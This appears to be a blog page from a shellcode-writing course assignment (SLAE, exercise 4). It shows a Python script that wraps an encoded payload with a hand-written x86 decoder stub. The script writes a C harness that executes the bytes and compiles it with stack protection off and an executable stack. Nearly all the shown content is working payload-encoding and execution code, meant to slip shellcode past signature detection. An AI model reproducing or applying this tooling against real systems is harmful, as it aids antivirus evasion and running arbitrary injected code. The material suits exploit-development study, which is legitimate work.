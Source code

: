 ```python
half = str(hex(count/2))[2::]
if len(half) < 2:               #Convert shellcode length to hex
	half = '0'+half

Shellcode = "\\xeb\\x22\\x5e\\x8d\\x7e"
Shellcode +="\\x" + half
Shellcode +="\\x31\\xdb\\x31\\xc9\\xf7\\xe1\\x89\\xe2\\xb1"
Shellcode +="\\x" + half
Shellcode +="\\x8a\\x1e\\x4b\\x88\\x1c\\x02\\x40\\x8a\\x1f"
Shellcode +="\\x4b\\x88\\x1c\\x02\\x40\\x46\\x47\\xe2\\xee"
Shellcode +="\\xff\\xe2\\xe8\\xd9\\xff\\xff\\xff"
Shellcode +=encoded

print("Shellcode:")
print Shellcode

filename="decoder.c"
print("Saving to " + filename)

content = "#include<stdio.h>\n"
content += "#include<string.h>\n"
content += "unsigned char code[] = \\\n"
content += "\"" + Shellcode + "\";\n"
content += "int main(){\n"
content += "	printf(\"Shellcode Length:  %d\\n\", strlen(code));\n"
content += "	int (*ret)() = (int(*)())code;\n"
content += "	ret();}\n"

textfile = open(filename , 'w')
textfile.write(content)
textfile.close()

os.system("gcc -m32 -fno-stack-protector -z execstack " + filename +" -o " + filename[:-2])
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-4/genEncodedShellCode.py>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex4-7.JPG"/>